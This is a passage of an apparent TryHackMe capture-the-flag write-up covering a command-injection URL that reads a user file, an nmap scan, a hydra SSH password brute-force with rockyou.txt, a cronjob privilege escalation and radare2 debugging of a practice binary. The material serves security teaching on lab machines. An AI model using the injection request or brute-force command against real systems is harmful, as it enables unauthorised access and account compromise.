 now lets enter this into url http://machine-ip/api/cmd/cat%20%2Fhome%2Fbestadmin%2Fuser.txt

![day19-4](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day19-4.png)

## Day 20 : Cronjob Privilege Escalation

#### 1. What port is SSH running on?

```bash
nmap -p1-9999 10.10.251.78
```

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-26 09:36 EDT
Nmap scan report for 10.10.251.78
Host is up (0.20s latency).
Not shown: 9998 closed ports
PORT     STATE SERVICE
****/tcp open  tram
Nmap done: 1 IP address (1 host up) scanned in 182.66 seconds
```

#### 2. Crack sam's password and read flag1.txt

use hydra to crack sam's password
```bash
hydra -l sam -P ../rockyou.txt ssh://10.10.251.78 -s port
```

![day20-1](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day20-1-updated.png)

#### 3. Escalate your privileges by taking advantage of a cronjob running every minute. What is flag2?

Now if check around we see that flag2 is in ubuntu directory and there's script clean-up.sh which is definetly running by crontab now lets abuse this

![day20-2](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day20-2.png)

## Day 21 : Elf Engineering

Download the file and run the challenge1 as `r2 -d challenge1` this will open the binary in debugging mode and run aa to analyze the program

![day21-1](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day21-1.png)

Once the analyzing is done we analyze the main function by using this command `pdf @main`

![day21-2](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day21-2.png)

Now they have asked us three questions, 1. value of local ch , 2. value of eax imul, 3. value of local 4h before eax is 0, lets mark those memory address.

![day21-3](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day21-3.png)
